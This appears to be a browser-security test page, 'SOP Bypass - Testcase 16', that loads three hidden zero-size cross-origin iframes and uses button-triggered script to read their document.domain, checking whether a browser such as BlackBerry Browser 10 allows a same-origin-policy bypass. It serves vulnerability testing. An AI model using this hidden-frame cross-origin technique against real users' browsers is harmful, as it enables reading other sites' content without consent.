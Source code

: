 ```yaml
---
layout: default
title: SOP Bypass - Testcase 16
permalink: /sop/new/16
---
```


# SOP Bypass - Testcase 16

Attempting to trigger a SOP Bypass using Nested iframes trick (Blackberry Browser 10) is prone to it

<script>
function sop1() {
    alert(this.frames[0].document.domain);
}
function sop2() {
    alert(this.frames[1].document.domain);
}
function sop3() {
    alert(this.frames[2].document.domain);
}
</script>

<iframe width="0" height="0" src="https://web.archive.org/web/20180831134343if_/https://www.w3schools.com/" id="frame1" name="frame1" data-ruffle-polyfilled=""></iframe>
<iframe width="0" height="0" src="https://web.archive.org/web/20180831134343if_/https://www.bing.com/" id="frame2" name="frame2" data-ruffle-polyfilled=""></iframe>
<iframe width="0" height="0" src="https://web.archive.org/web/20180831134343if_/https://www.example.com/" id="frame3" name="frame3" data-ruffle-polyfilled=""></iframe>

<input type="button" id="btn_test" class="test" value="Run Test Case 1" onclick="sop1()">
<input type="button" id="btn_test" class="test" value="Run Test Case 2" onclick="sop2()">
<input type="button" id="btn_test" class="test" value="Run Test Case 3" onclick="sop3()">

**Note:**
If page displays an alert box displaying bing.com, your browser is vulnerable to SOP bypass.
